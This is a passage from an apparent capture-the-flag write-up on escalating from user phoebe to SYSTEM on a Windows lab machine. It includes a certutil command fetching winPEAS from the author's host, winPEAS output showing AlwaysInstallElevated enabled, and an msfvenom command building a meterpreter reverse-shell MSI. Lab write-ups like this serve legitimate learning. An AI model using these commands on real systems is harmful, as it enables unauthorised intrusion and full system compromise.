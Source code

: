 Since we have access under the `phoebe` user, we can probably already access the user flag. Did a character count on the file as proof. The PowerShell equivalent to `wc -c` is a little lengthy!

```powershell
PS C:\xampp\htdocs\omrs\images> (Get-Content C:\Users\phoebe\Desktop\user.txt | Measure-Object -Character).Characters
32
```

## Privesc: `phoebe` to `system`

Started priesc enumeration by having a look around while running winpeas in the background. Since I don't do many Windows machines, I always forget how to use PowerShell and `cerutil.exe` to transfer files. This article, [(Almost) All The Ways to File Transfer](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65), is a great resource that I keep referring to when I forget! And documenting the command I used to fetch winpeas for future reference.

```none
certutil -urlcache -f "http://10.10.14.2:8000/winPEASx64.exe" "winPEASx64.exe"
```

There were a few things in the winpeas output that were interesting. The one that caught my eye was the `AlwaysInstallElevated` policy - which when enabled will install MSI files with system privliges. Nice! As we can see in the winpeas output, it is enabled.

```none
����������͹ Checking AlwaysInstallElevated
�  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU
```

[HackTricks AlwaysInstallElevaated](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated) has a good summary of the configuration:

> If these 2 registers are enabled (value is 0x1), then users of any privilege can install (execute) *.msi files as NT AUTHORITY\SYSTEM.

Found another article called [Windows Privilege Escalation (AlwaysInstallElevated)](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/) which gave detailed instructions on how to exploit it. There are two options, I picked the reverse shell option.

Started by using `msfvenom` to generate a malicious MSI file to upload to the target. This has my reverse shell configuration.

```none
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.2 lport=9001 -f msi > exploit.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
```

Then configured a meterpreter listener on my machine.
